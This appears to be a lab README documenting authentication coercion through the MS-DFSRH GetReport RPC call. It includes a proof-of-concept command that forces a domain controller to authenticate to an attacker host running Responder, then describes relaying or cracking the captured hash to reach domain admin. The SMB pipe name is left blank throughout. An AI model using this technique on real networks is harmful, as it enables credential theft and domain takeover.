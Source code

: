 # MS-DFSRH - Remote call to GetReport (opnum 9)

## Summary

+ **Protocol**: [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae)

+ **Protocol UUID**: 9009d654-250b-4e0d-9ab0-acb63134f69f

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220)

+ **Function operation number**: `9`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol (with uuid `9009d654-250b-4e0d-9ab0-acb63134f69f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) and allows to call RPC functions of this protocol. We will then call the remote [`GetReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetReport('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetReport(
   [in] GUID replicationGroupGuid,
   [in] BSTR referenceMember,
   [in] BSTR serverName,
   [in] SAFEARRAY (_VersionVectorData)* referenceVersionVectors,
   [in] LONG flags,
   [out] SAFEARRAY (_VersionVectorData)* memberVersionVectors,
   [out] BSTR* reportXML
 );
```

## References

+ Documentation of protocol [MS-DFSRH]: DFS Replication Helper Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae

+ Documentation of function `GetReport`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/ea839292-129c-4fbf-ac38-de4bb1ba4220